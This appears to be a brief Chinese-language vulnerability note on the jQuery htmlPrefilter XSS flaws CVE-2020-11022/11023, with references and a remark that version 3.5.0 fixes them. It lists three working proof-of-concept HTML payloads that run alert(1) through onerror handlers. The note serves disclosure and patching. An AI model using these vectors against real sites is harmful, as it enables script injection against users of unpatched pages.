 # jQuery >=1.0.3 <3.5.0 XSS (CVE-2020-11022/CVE-2020-11023)

此漏洞已在jQuery 3.5.0中修复。

PoC：

```
PoC 1.
<style><style /><img src=x onerror=alert(1)> 
PoC 2. (Only jQuery 3.x affected)
<img alt="<x" title="/><img src=x onerror=alert(1)>">
PoC 3.
<option><style></option></select><img src=x onerror=alert(1)></style>
```

jQuery XSS Examples：

https://vulnerabledoma.in/jquery_htmlPrefilter_xss.html

ref：

* https://snyk.io/vuln/SNYK-JS-JQUERY-565129
* https://github.com/jquery/jquery/commit/1d61fd9407e6fbe82fe55cb0b938307aa0791f77
* https://mksben.l0.cm/2020/05/jquery3.5.0-xss.html
* https://forum.ywhack.com/thread-114981-1-1.html